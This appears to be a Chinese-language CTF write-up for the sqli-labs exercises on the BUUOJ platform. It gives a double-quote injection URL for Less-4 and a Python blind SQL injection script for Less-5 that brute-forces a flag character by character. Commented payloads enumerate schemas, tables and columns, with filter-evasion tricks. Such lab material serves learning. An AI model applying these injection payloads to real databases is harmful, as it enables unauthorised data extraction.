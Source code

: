 # sql-lab

> (记录了一点难度稍微高一丢丢的),网上应该全套的也不少

## less 4

双引号注入，这个屏蔽了单引号，没读题导致注入了半天：

~~~
http://2b676f25-940e-4b98-b4a7-af89b243f461.node3.buuoj.cn/Less-4/?id=1" and "1"="2
~~~

## less5

盲注脚本

~~~python
import requests
def login(_id):
    url = "http://d4f9d5dc-4df8-4883-8aec-9cac4065e793.node3.buuoj.cn/Less-5/?id="+_id #target
    # data = {
    #     "id":_id
    #     #"username":_username,
    #     #"password":_password
    # }
    response = requests.get(url) #get:requests.get
    #print(response.text)
    request_headers = response.headers
    #print(request_headers)
    content = response.content
    if b"You are in..........." in content:
        return True
    else:
        return False

def main():
   # _username = "1' and ascii(substring((select flag from ctftraining.flag),1,1))=102--+"
    #_username = "1' and ascii(substring((select flag from ctftraining.flag),1,1))=102--+"
    #login(_username)
    find_name = ""
    for i in range(0x50):
        # 0x80 = 128 , 0x20 = 32 ,32-128为可显示字符，32-128为可显示字符区间
         for j in range(0x80,0x20,-1):
            # mysql 官方注释  "-- " --后面有空格,或者用 "#"
            # _username = "amin' or (((asCIi(sUBsTring((sELect/**/gROup_conCAt(sCHEma_name)/**/From/**/inFormation_SChema.scHemata),%d,1)))=%d))#" %(i,j)    #此处是payload,需要改动
            # _username = "amin' or (((asCIi(sUBsTring((sELect/**/sCHEma_name/**/From/**/inFormation_SChema.scHemata/**/Limit/**/3,1),%d,1)))=%d))#" %(i,j)
            # _username = "amin' or (((asCIi(sUBsTring((sELect/**/group_concat(Table_name)/**/From/**/inFormation_SChema.tAbles/**/where/**/taBle_schema='sql1'),%d,1)))=%d))#" %(i,j)
            # _username = "amin' or (((asCIi(sUBsTring((sELect/**/group_concat(columN_name)/**/From/**/inFormation_SChema.columns/**/where/**/taBle_naMe='admin'),%d,1)))=%d))#" %(i,j)
            _username = "1' and ascii(substring((select flag from ctftraining.flag),%d,1))=%d--+" %(i,j)
            # _username = "amin' or (ASCII(sUBsTring((user()),%d,1)=%d )) --" %(i,j)
            # _username = "amin'or(((asCIi(sUBString((sELEct/**/group_concat(scheMA_Name)/**/FRom/**/inforMATion_scheMa.schemaTa),%d,1)))=%d))-- " % (i, j)
            # 可改动处
            _password = "amid";
            print(_username)
            if login(_username):
                find_name+=chr(j)
                print(find_name)
~~~